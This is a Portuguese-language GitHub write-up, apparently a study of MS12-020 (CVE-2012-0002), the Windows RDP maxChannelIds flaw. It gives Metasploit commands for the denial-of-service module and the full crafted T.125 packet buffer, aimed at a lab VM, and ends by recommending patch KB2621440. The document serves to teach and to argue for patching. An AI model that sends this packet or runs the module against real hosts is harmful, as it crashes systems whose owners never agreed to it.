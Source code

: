 # Exploring-MS12-020 / CVE-2012-0002

***"The Microsoft Remote Desktop Protocol (RDP) provides remote display
and input capabilities over network connections for Windows-based
applications running on a server. RDP is designed to support different
types of network topologies and multiple LAN protocols."***

 - O RDP é usado pelo "Terminal Services e Remote Desktop Services" e
   funciona no nível de kernel na porta 3389.
   
  - Existe uma vulnerabilidade que ocorre no manuseio do apontador
   pendente no campo maxChannelsIds do pacote T.125 ConnectMCSPDU que
   fica nesse estado de vulnerabilidade quando setado para menor/igual ao número 5.
   
  - Observe que nas versões do Windows pós-Vista (como 7 e 2008) "parece"
   necessário ter "Permitir conexões de computadores executando qualquer
   versão da área de trabalho remota "por ser vulnerável.
   
   - A code-exec ocorre durante a desconexão usuário. A capacidade de
   exploração depende da possibilidade de controlar o ESI ou o conteúdo
   apontado por ele.

![](https://ifconfig.dk/wp-content/uploads/2014/02/RDPkill1.png)

# Metasploit 

```console
root@kali# msfconsole

msf5 > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > set RHOSTS 192.168.X.X
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > run
```

A máquina Windows será paralisada, causando a famosa "TELA AZUL DA MORTE"

# Instalações
Para entender como criar e instalar uma VM com o SO - Win 7, recomendo acessar o seguinte link: [https://www.comoinstalar.com.br/virtualizacao/como-instalar-o-windows-7/](https://www.comoinstalar.com.br/virtualizacao/como-instalar-o-windows-7/) 

E para fazer a instalação do VirtualBox :
[https://www.virtualbox.org/wiki/Downloads](https://www.virtualbox.org/wiki/Downloads) 


# Código

O buffer que deve ser adicionado é o seguinte:

```ruby
pkt = ''+
      "\x03\x00\x00\x13" +  # TPKT: version + length
      "\x0E\xE0\x00\x00" +  # X.224 (connection request)
      "\x00\x00\x00\x01" +
      "\x00\x08\x00\x00" +
      "\x00\x00\x00"     +
      "\x03\x00\x00\x6A" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224 (connect-initial)
      "\x7F\x65\x82\x00" +  # T.125
      "\x5E"             +
      "\x04\x01\x01"     +  # callingDomainSelector
      "\x04\x01\x01"     +  # calledDomainSelector
      "\x01\x01\xFF"     +  # upwardFlag
      "\x30\x19"         +  # targetParameters
      max_channel_ids    +  # maxChannelIds
      "\x02\x01\xFF"     +  # maxUserIds
      "\x02\x01\x00"     +  # maxTokenIds
      "\x02\x01\x01"     +  # numPriorities
      "\x02\x01\x00"     +  # minThroughput
      "\x02\x01\x01"     +  # maxHeight
      "\x02\x02\x00\x7C" +  # maxMCSPDUsize
      "\x02\x01\x02"     +  # protocolVersion
      "\x30\x19"         +  # minimumParameters
      max_channel_ids    +  # maxChannelIds
      "\x02\x01\xFF"     +  # maxUserIds
      "\x02\x01\x00"     +  # maxTokenIds
      "\x02\x01\x01"     +  # numPriorities
      "\x02\x01\x00"     +  # minThroughput
      "\x02\x01\x01"     +  # maxHeight
      "\x02\x02\x00\x7C" +  # maxMCSPDUsize
      "\x02\x01\x02"     +  # protocolVersion
      "\x30\x19"         +  # maximumParameters
      max_channel_ids    +  # maxChannelIds
      "\x02\x01\xFF"     +  # maxUserIds
      "\x02\x01\x00"     +  # maxTokenIds
      "\x02\x01\x01"     +  # numPriorities
      "\x02\x01\x00"     +  # minThroughput
      "\x02\x01\x01"     +  # maxHeight
      "\x02\x02\x00\x7C" +  # maxMCSPDUsize
      "\x02\x01\x02"     +  # protocolVersion
      "\x04\x82\x00\x00" +  # userData
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x08" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x28"             +  # T.125
      "\x03\x00\x00\x0C" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x38\x00\x06\x03" +  # T.125
      "\xF0"             +
      "\x03\x00\x00\x09" +  # TPKT: version + length
      "\x02\xF0\x80"     +  # X.224
      "\x21\x80"            # T.125
```
Por fim, a instalação da atualização de segurança KB2621440 através da atualização do Windows fecha está vulnerabilidade. Com isso, espero que prove meu ponto de sempre manter seu sistema atualizado.
